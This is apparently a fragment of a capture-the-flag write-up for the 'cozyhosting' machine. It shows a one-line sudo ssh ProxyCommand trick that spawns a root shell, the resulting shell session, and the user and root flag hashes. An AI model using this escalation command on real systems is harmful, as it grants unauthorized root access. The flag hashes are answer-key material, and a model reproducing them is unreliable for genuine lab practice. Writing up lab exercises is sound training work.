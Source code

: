 ```
sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
```

this are the flags:

```
user.txt
# cat user.txt  
76bcc1f623796c9e8642b26f24b52435
# cd /root      
# ls
root.txt
# cat root.txt  
84ab2d144348ac1650c2cd286cd8be37
# 

```
if you want to see beter the ( # ) you must write bash
```
# bash
root@cozyhosting:~# 
```


we did it!!!!!!